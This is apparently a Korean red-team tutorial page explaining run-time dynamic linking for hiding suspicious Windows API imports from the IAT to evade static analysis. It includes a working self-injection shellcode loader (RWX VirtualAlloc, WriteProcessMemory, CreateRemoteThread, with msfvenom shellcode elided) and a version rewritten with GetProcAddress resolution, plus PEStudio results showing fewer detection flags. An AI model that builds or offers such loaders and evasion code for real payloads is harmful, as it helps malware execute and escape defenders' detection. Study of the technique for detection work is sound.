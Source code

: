 # 런타임 다이나믹 링킹 (Run-time Dynamic Linking)

PE 파일 구조에서 Import Address Table (IAT)는 해당 파일이 사용하는 DLL의 exported 함수 포인터들을 기록해놓은 부분이다. IAT는 PE 파일 실행시 윈도우 로더 (Windows Loader) 가 PE파일을 메모리에 로드하며 해당 파일이 사용하는 DLL과 exported 함수들을 같이 맵핑 하기 위해 사용된다.

페이로드 제작시 대부분의 윈도우 API들은 직접/간접 시스템 콜을 사용하기 때문에 IAT에 수상한 윈도우 API 함수가 기록될 일은 없다. 하지만 항상 직접/간접 시스템 콜을 사용할 수 있는 것도 아니고, 가끔씩 순정 윈도우 API를 페이로드에 사용해야만 할 때가 있다. 이때 IAT에 수상한 윈도우 API(`WriteProcessMemory`, `CreateRemoteThreadEx` , 등)들이 기록되어 있다면 정적 분석에 걸리게 된다.

Run-time Dynamic Linking (런타임 다이나믹 링킹) 은 런타임 중 동적으로 DLL에서 exported 함수를 로드해 사용하는 기법이다. 이 기법을 사용하면 IAT에 수상한 윈도우 API들이 기록되지 않기 때문에 정적 분석을 통과할 확률이 높아진다. 물론 여전히 윈도우 API를 사용하는 것이고, 시스템 콜을 사용하는 것이 아니기 때문에 유저랜드 후킹이나 다른 방어 기법들에 걸리게 된다. 따라서 런타임 다이나믹 링킹은 최소한의 방어 우회 기법이다 정도로만 생각해야한다.

### 코드

런타임 다이나믹 링킹의 코드는 다음과 같은 형태로 이루어져있다.

```
// 윈도우 API 함수 포인터 구조체 생성 
typedef LPVOID(WINAPI* _VirtualAlloc)(LPVOID, SIZE_T, DWORD, DWORD);

// 필요한 문자열 unsigned char 형태로 저장 
unsigned char sKernel32[] = { 'K','e','r','n','e','l','3','2',0x0 };
unsigned char sVirtualAlloc[] = { 'V','i','r','t','u','a','l','A','l','l','o','c',0x0 };

// 런타임 중 DLL의 모듈 핸들을 구한 뒤 exported 함수의 핸들을 구함. 그 뒤 윈도우 API 함수 포인터 구조체로 캐스팅 (형변환)
_VirtualAlloc pVirtualAlloc = (_VirtualAlloc)(GetProcAddress(GetModuleHandleA((LPCSTR)sKernel32), (LPCSTR)sVirtualAlloc));

... 

// 4. 이제부터 VirtualAlloc 대신 pVirtualAlloc 을 사용 
```

1. 윈도우 API 함수와 동일한 인자 및 반환을 하는 함수 포인터 (`WINAPI*`) 구조체를 생성한다.
2. 그 뒤, 필요한 문자열을 `unsigned char` 형태로 저장한다. 예를 들어 DLL의 이름인 `kernel32.dll / ntdll.dll` 이나 exported 함수 이름인 `VirtualAlloc, WriteProcessMemory, MiniDumpWriteDump` 등이다.
3. `GetModuleHandleA` 와 DLL 이름 문자열을 이용해 모듈의 핸들을 얻는다. 그 뒤, 모듈의 핸들과 exported 함수 이름을 `GetProcAddress` 함수에다 집어넣어 함수 포인터를 얻는다.
4. 이 함수 포인터를 #1 번에서 만들어 놨던 윈도우 API 함수 포인터 구조체로 캐스팅 (형변환) 한다.
5. 이제부터 해당 윈도우 API 함수를 사용하고 싶다면, #4번에서 만든 함수 포인터를 사용하면 된다.

\#3 \~ #4 번에서 런타임 중 `GetModuleHandleA` 와 `GetProcAddress` 함수가 실행되며 함수 포인터를 획득하고, 이를 윈도우 API 함수 포인터 구조체로 캐스팅하게 된다. 즉, 정적인 PE 파일 상태에서의 IAT에는 아무것도 없고, 오로지 파일이 실행돼 메모리에 로드 되고 런타임에 들어갔을 때 사용하고자 하는 윈도우 API를 함수 포인터 형태로 사용할 수 있게 된다.

### 실습

먼저 런타임 다이나믹 링킹이 적용되지 않은 간단한 셀프 인젝션 코드를 살펴본다.

```
#include <iostream>
#include <windows.h>

int main()
{
	// msfvenom -p windows/x64/exec CMD="calc.exe" -f c
	unsigned char buf[] = < ... 쉘코드 ... >

	// VirtualAlloc on self 
	HANDLE hProc = GetCurrentProcess();
	LPVOID hAlloc = (LPVOID)VirtualAlloc(NULL, sizeof(buf), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (hAlloc == NULL) {
		printf("[-] VirtualAlloc failed: %d\n", GetLastError());
		return 1;
	}
	
	// WriteProcessMemory on self 
	SIZE_T* lpNumberOfBytesWritten = 0;
	if (!WriteProcessMemory(hProc, hAlloc, (LPVOID)buf, sizeof(buf), lpNumberOfBytesWritten)) {
		printf("[-] WPM failed: %d\n", GetLastError());
		return 1;
	}

	// CRT and execute the shellcode 
	DWORD threadId = 0; 
	HANDLE hThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)hAlloc, NULL, 0, (LPDWORD)(&threadId));
	if (hThread == NULL) {
		printf("[-] CRT failed: %d\n", GetLastError());
		return 1; 
	}
	
	// WaitForSingleObject 
	WaitForSingleObject(hThread, 1000);

	return 0; 
}
```

컴파일 후 PEStudio 로 해당 파일을 살펴보면 IAT에 수상한 윈도우 API인 `WriteProcessMemory` 와 `CreateRemoteThread` 가 보인다. "Flag" 도 총 6개로, 수상한 윈도우 API 6개가 IAT에 기록되어 있다는 것을 보여준다.

<figure><img src="../.gitbook/assets/image (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

이제 런타임 다이나믹 링킹을 적용해보자. `WriteProcessMemory` 와 `CreateRemoteThread` 에 적용한 뒤, 다시 컴파일을 한다.

```
unsigned char sKernel32[] = { 'K','e','r','n','e','l','3','2',0x0 };

typedef BOOL(WINAPI* _WriteProcessMemory)(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T*);
unsigned char sWriteProcessMemory[] = { 'W','r','i','t','e','P','r','o','c','e','s','s','M','e','m','o','r','y',0x0 };
_WriteProcessMemory pWriteProcessMemory = (_WriteProcessMemory)(GetProcAddress(GetModuleHandleA((LPCSTR)sKernel32), (LPCSTR)sWriteProcessMemory));

typedef HANDLE(WINAPI* _CreateRemoteThread)(HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);
unsigned char sCreateRemoteThread[] = { 'C','r','e','a','t','e','R','e','m','o','t','e','T','h','r','e','a','d',0x0 };
_CreateRemoteThread pCreateRemoteThread = (_CreateRemoteThread)(GetProcAddress(GetModuleHandleA((LPCSTR)sKernel32), (LPCSTR)sCreateRemoteThread));

[ ... 나머지 코드 동일 ... ]
```

다시 PEStudio 로 살펴보면, IAT 에서 `WriteProcessMemory` 와 `CreateRemoteThread` 가 더이상 보이지 않는다. "Flag" 도 6개에서 4개로 줄었다.

<figure><img src="../.gitbook/assets/image (12) (5).png" alt=""><figcaption></figcaption></figure>

런타임 다이나믹 링킹은 간단한 정적 분석을 우회하기 위한 용도로만 사용되야한다. 중요한 윈도우 API의 경우 직접/간접 시스템 콜을 이용하거나 수동적 맵핑을 이용한 방법을 사용하도록 한다. 별로 중요하지 않지만 자주 사용되고, 직/간접 시스템 콜을 사용할 수 없는 윈도우 API (`Process32Next` 등)의 경우, 런타임 다이나믹 링킹을 적용하면 IAT 목록을 수상하지 않게 만들 수 있다.

### References

{% embed url="https://0xrick.github.io/win-internals/pe6" %}

{% embed url="https://vanmieghem.io/blueprint-for-evading-edr-in-2022" %}
